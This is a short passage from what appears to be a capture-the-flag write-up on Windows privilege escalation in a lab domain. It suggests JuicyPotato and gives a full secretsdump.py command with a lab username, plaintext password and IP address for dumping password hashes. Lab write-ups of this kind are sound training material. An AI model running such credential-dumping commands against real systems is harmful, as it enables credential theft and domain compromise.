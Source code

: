 There's a few ways to priv esc here

`whoami /priv` shows that a-whitehat has every privilege possible so we COULD use juicy potato.

Because we have creds, `secretsdump.py` will also dump hashes for us.

` python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15`